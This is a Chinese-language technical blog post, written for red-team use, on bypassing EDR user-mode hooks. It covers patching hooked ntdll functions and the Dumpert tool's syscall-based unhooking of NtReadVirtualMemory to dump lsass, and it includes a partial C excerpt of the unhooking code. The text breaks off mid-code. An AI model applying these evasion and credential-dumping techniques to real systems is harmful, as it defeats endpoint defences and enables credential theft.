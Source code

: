 ```yaml
---
layout: post
title: EDR绕过方法
date: 2021-02-17 22:41:12 +0900
category: AntiEDR
---
```

### 0x01 前言

　　这几年，端点检测和响应平台(Endpoint detection and response)-EDR越来越受到重视，EDR产品的功能基本包含实时端点监控、数据分析、威胁检测和拦截以及威胁发现能力。EDR的监控点之一是在应用层进行Hook，在渗透测试或者red-team交战中，一些开源的攻击性安全工具会很容易被EDR的应用层Hook点发现和拦截。下面介绍几种可以用来绕过EDR的应用层Hook的方法
编译，定位到文件目录

### 0x02 Hook钩子还原

　　EDR的Hook一般会在系统DLL的函数头进行Hook，比如会Hook NtWriteVirtualMemory的函数，并将NtWriteVirtualMemory开头的字节码改为jmp指令，调到EDR的DLL中进行监控判断是否是一个恶意的行为。所以这种对抗方法，可以Patch该API的JMP指令，来还原Hook，进行绕过EDR，下图为移除Cylance的钩子代码：

![1](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2021-02-17/1.png)

　　该方案的缺点是，需要针对不同EDR厂商的补丁进行还原，不同EDR厂商的挂钩点API以及挂钩位置都可能不一致。

　　不同厂商的挂钩位置可以参考 [https://github.com/D3VI5H4/Antivirus-Artifacts](https://github.com/D3VI5H4/Antivirus-Artifacts)

### 0x03  Dumpert工具直接syscall调用Native API恢复NtReadVirtualMemory钩子来实现dump lsass的绕过

　　[Dumpert](https://github.com/outflanknl/Dumpert) 工具不直接调用API，这个工具会直接使用汇编来恢复NtReadVirtualMemory的钩子，然后调用MiniDumpWriteDump来dump lsass，代码如下：

　　通过汇编代码调用ZwWriteVirtualMemory、ZwProtectVirtualMemory来UnHook NtReadVirtualMemory，

```
BOOL Unhook_NativeAPI(IN PWIN_VER_INFO pWinVerInfo) {
    BYTE AssemblyBytes[] = {0x4C, 0x8B, 0xD1, 0xB8, 0xFF};

    if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"10.0") == 0) {
        AssemblyBytes[4] = pWinVerInfo->SystemCall;
        ZwWriteVirtualMemory = &ZwWriteVirtualMemory10;
        ZwProtectVirtualMemory = &ZwProtectVirtualMemory10;
    }
    else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.1") == 0 && pWinVerInfo->dwBuildNumber == 7601) {
        AssemblyBytes[4] = pWinVerInfo->SystemCall;
        ZwWriteVirtualMemory = &ZwWriteVirtualMemory7SP1;
        ZwProtectVirtualMemory = &ZwProtectVirtualMemory7SP1;
    }
    else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.2") == 0) {
        AssemblyBytes[4] = pWinVerInfo->SystemCall;
        ZwWriteVirtualMemory = &ZwWriteVirtualMemory80;
        ZwProtectVirtualMemory = &ZwProtectVirtualMemory80;
    }
    else if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"6.3") == 0) {
        AssemblyBytes[4] = pWinVerInfo->SystemCall;
        ZwWriteVirtualMemory = &ZwWriteVirtualMemory81;
        ZwProtectVirtualMemory = &ZwProtectVirtualMemory81;
    }
    else {
        return FALSE;
    }

    LPVOID lpProcAddress = GetProcAddress(LoadLibrary(L"ntdll.dll"), pWinVerInfo->lpApiCall);

```